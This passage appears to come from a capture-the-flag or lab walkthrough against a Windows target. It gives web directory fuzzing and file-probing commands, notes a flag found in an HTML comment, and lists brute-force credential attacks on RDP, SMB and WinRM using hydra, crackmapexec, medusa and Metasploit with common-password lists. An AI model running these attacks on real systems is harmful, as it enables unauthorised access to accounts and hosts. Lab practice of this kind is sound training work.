 **Alternative Web Tools:**
```bash
# Wfuzz for fuzzing
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 http://$TARGET/FUZZ

# Feroxbuster (modern and fast)
feroxbuster -u http://$TARGET -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

# Check for specific files
for file in web.config .htaccess .git .svn .DS_Store Thumbs.db; do
    curl -s http://$TARGET/$file
done
```

When examining web pages, always check:
```bash
# View source for comments
curl -s http://$TARGET/vulnapp/login.html | grep -i "<!--"
curl -s http://$TARGET/ | grep -i "todo\|fixme\|hack\|debug\|password"

# Check JavaScript files
curl -s http://$TARGET/js/main.js | js-beautify
```

**FLAG{A***************3}** - Found in HTML comment

### Step 3.3: Password Attacks

Based on enumerated users, let's try common passwords:

```bash
# Create user list from enumeration
echo -e "Administrator\nadmin\noverlock\nbackup\nservice\ntest\nsqlservice\nsvc_print\ndebugger" > users.txt

# Common passwords
echo -e "Password123!\nPassword1\nAdmin123\nWelcome1\npassword\nadmin\nPassword1234" > passwords.txt

# RDP brute force
hydra -L users.txt -P passwords.txt rdp://$TARGET -t 4

# SMB brute force
crackmapexec smb $TARGET -u users.txt -p passwords.txt

# WinRM brute force
crackmapexec winrm $TARGET -u users.txt -p passwords.txt
```

**Alternative Password Attack Tools:**
```bash
# Medusa for multi-protocol
medusa -h $TARGET -U users.txt -P passwords.txt -M smbnt

# Metasploit auxiliary modules
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS $TARGET
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```
